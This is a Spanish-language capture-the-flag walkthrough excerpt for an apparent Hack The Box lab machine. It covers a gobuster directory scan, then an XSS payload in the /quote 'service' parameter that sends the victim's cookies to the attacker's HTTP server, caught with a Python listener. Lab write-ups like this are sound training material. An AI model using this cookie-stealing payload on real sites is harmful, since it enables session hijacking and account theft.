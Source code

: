 ### Escaneo más agresivo con Gobuster

```bash
gobuster dir -u http://capiclean.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 200
```

#### Parámetros:
- `dir`: Modo directorios.
- `-u`: URL objetivo.
- `-w`: Wordlist utilizada.
- `-x`: Extensiones a añadir a las rutas.
- `-t`: Número de hilos para acelerar el proceso.

![Gobuster Output](./images/gobuster.png)

#### Resultado:
- Se descubrieron rutas interesantes: `/quote`, `/login`, `/dashboard`, `/choose`, y `/team`.

---

## 💥 Fase 3: Explotación

### Vulnerabilidad XSS en `/quote`

En el parámetro `service`, se inyectó este payload para capturar cookies:

```bash
<img src=x onerror="location='http://10.10.14.26:8000/?token='+document.cookie">
```

En la máquina atacante se lanzó un servidor HTTP para capturar la cookie:

```bash
python3 -m http.server 8000
```

![XSS Cookie Capture](./images/xss-cookie.png)
